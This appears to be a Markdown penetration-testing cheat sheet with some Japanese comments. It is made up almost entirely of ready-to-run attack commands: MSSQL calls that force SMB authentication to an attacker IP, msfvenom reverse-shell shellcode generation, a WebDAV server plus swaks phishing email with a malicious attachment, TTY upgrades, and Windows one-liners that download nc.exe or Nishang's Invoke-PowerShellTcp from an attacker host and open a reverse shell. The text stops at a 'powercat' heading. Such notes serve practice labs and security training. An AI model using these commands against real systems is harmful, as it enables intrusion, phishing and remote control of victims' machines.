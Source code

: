 ```bash
EXEC master..xp_subdirs '\\10.10.14.23\anything\'
EXEC master..xp_fileexist '\\10.10.14.23\anything\'
```

## ExploitDB
```bash
searchsploit -m 42031
```
## shellcode
https://shell-storm.org/shellcode/index.html
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.50.4 LPORT=4444 EXITFUNC=thread -b "\x00\x0a\x0d\x25\x26\x2b\x3d" -f python 
```

# Phishing
webdav
```bash
# webdav
wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /root/work/webdav
# sendmail
swaks -t daniela@beyond.com -t marcus@beyond.com --from john@beyond.com --attach @config.Library-ms --server 192.168.232.242 --body @body.txt --header "Subject: Staging Script" --suppress-data -ap  
```
shellter
```bash
shellter
```

# Foothold
## Linux
### Background
```bash
nohup python3  &
```
### Interactiveshell
```bash
# 仮想tty
python3 -c 'import pty; pty.spawn("/bin/bash")'
stty raw -echo; fg 
export TERM=xterm
export SHELL=/bin/bash
reset
```
## Windows
### SHELL
```powershell
#nc.exe
powershell -nop -c "iwr -Uri http://192.168.45.218/nc.exe -Outfile C:\Windows\temp\nc.exe"
C:\Windows\temp\nc.exe 192.168.45.218 4444 -e powershell

# Invoke-PowerShellTcp
wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1
powershell.exe -nop -w hidden -c "IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.14.37/Invoke-PowerShellTcp.ps1'); Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.37 -Port 4444"

# powercat
```